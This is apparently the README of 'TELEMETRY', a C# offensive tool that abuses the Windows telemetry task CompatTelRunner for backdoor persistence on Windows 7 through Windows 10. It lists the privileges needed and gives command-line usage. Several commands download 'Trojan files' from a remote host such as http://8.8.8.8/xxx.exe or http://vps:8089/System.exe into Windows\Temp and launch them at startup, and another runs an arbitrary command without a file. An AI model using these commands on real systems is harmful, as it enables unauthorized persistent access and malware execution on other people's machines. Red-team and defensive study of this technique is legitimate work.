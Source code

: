 # TELEMETRY


### Background

[TELEMETRY](#TELEMETRY-1) is a C# For Windows PERSISTENCE

Today we’re going to talk about a persistence method that takes advantage of some of the wonderful telemetry that Microsoft has included in Windows versions for the last decade. The process outlined here affects Windows machines from 2008R2/Windows 7 through 2019/Windows 10.

- **Local admin rights to install (requires the ability to write to HKLM)**
- **Have CompatTelRunner.exe**
- **2008R2/Windows 7 through 2019/Windows 10**

### Command Line Usage

        ABUSING WINDOWS TELEMETRY FOR PERSISTENCE
                                                 .Imanfeng
       Features:
            Install:   -   Deployment authority maintains backdoor
    
        Command:
            TELEMETRY.exe install /command:calc
            -   Execute command without file backdoor
    
            TELEMETRY.exe install /url:http://8.8.8.8/xxx.exe /path:C:\Windows\Temp\check.exe
            -   Remotely download Trojan files to the specified directory for backdoor startup
    
            TELEMETRY.exe install /url:http://8.8.8.8/xxx.exe
            -   Remotely download Trojan files to C:\\Windows\\Temp\\compattelrun.exe for backdoor startup
    
            TELEMETRY.exe install /path:C:\Windows\Temp\check.exe
            -   Set path Trojan files for backdoor startup
    
        Parameter:
            /command: -   Execute Command
            /url:     -   Download FROM
            /path:    -   Download To

- Execute command without file backdoor

  ```
  Telemetry.exe install /command:calc
  ```

  ![1](PIC/2.png)

  

- Remotely download Trojan files for backdoor startup

  ```
  Telemetry.exe install /url:http://vps:8089/System.exe
  ```

  ![2](PIC/1.png)

  

### Learn

https://www.trustedsec.com/blog/abusing-windows-telemetry-for-persistence/
